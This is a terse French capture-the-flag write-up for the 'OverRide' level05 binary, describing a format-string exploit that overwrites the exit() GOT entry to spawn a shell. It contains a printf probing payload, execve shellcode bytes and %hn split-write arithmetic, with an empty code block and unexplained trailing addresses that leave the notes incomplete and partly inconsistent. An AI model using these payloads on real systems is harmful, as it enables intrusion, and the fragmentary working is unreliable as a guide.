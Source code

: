 on a un exécutable qui lit sur l'entrée standard

après le désassemblage on voit un printf non protégé que l'on peut utiliser pour modifier l'appel de _exit()_

```
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

```
level05@OverRide:~$ echo -e '\xe0\x87\x04\x08 %x %x %x %x %x %x %x %x %x %x'| cat | ./level05
� 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 80487e0
```

l'adresse de _exit()_ est visible à la 10ème position

on trouve aussi dans les variables d'environnments une variable SHELL qui contient "/bin/bash", pratique pour lancer un shell

```

```

il faut qu'on envoie l'adresse de SHELL pour remplacer l'adresse d'_exit()_, mais l'adresse de SHELL est trop grande pour rentrer dans un _int_ : 0xffffd8f6 = (dec)4294957302

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

il faut l'envoyer en deux parties :

- ffff = 65535, d8f6 = 55542
- envoie 55542 octets + envoie 65535
- %55542d%10$hn + %(65535 - 55542)d%11$hn

ffffd538 d538 = 54584
65535 - 54584 = 10951

ffffd850 d850 = 55376
65535 - 55376 = 10159

0xffffd54e